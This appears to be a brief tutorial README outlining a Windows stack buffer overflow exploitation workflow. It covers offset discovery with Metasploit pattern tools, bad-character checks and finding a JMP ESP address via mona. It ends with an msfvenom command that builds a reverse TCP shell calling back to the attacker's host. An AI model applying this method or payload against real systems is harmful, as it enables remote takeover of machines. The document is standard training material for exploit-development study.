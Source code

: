 # Example

- Generate a pattern :

`/opt/metasploit/tools/exploit/pattern_create.rb -l <size>`

- Insert the pattern into your script.

- Run it

- Then use `pattern_offset.rb` with the value in hex you bring in the registers

- Then to make sur you're right, insert A number of the offset , 4 *B, and the end with C.

- After that, increase the size of the buffer of C to verify that you have enough space to send your shellcode.

- Next step is to analyze which bad characters are not allowed (send bad characters after the 4 B, and analyze it).

- Then, we want to point EIP to ESP to execute our shell. But after each crash, the value of ESP change. So we have to find an address where there's a JMP ESP. Pay attention, to do that, DEP and ASLR have to be not activated, and this address should not contain bad characters.

- Using mona in immunity debugger to find a module : `!mona modules`

- Make sure ASLR is false, there's no null bytes in the base address and DEP is also at false. 

- When you have identified a module, you have to know what's the asm code for jmp esp. Use `nasm_shell` in metasploit tools directory. It's FFE4

- Now in mona : `!mona find -s “\xff\xe4” -m <module>`

- When you find a good address, click on it, copy the address, and click on the icon with a narrow to go to the expression. pay attention to bad char, they don't have to be present at the address

- put a breakpoint on it and modify your payload to redirect EIP to ESP

- pay attention if you want to put your breakpoint, do not run the program before, stay in pause (initial state) 

- Then generate a shell. Example: for a 32 bits system : `msfvenom -p windows/shell_reverse_tcp LHOST=<local ip> LPORT=<local port> -f c EXITFUNC=thread -b <bad chars>`. EXITFUNC=thread to avoid the crash of the application when you launch the script (by default it's EXITPROCESS so it killed the application).

- Modify your script and add your shell. Don't forget to insert nop codes before (\x90)




